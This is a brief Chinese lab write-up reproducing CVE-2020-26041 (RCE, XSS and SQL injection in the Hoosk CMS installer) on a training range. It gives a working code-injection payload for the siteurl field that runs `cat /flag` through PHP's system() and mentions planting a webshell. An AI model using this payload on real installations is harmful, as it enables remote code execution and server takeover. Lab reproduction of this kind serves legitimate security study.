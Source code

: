 ```yaml
---
title: CVE-2020-26041【RCE & XSS & SQL注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
  - 'XSS'
  - 'SQL注入'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2020-26041)

## 2. 漏洞分析

[RCE & XSS & SQL 注入](https://github.com/kr0za/bugs/blob/master/hoosk.md#0x01-install-rce)

## 3. 漏洞复现

开启环境进入安装界面，RCE的漏洞点在siteurl里面，可以直接尝试读取flag，也可写个webshell……自由发挥

**RCE—示例如下**

siteurl：`a.com/');echo system("cat /flag");exit();//`

注意其他信息的填写！

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310011146759.png)

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310011146688.png)

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310011146770.png)

SQL注入，XSS利用参见漏洞分析
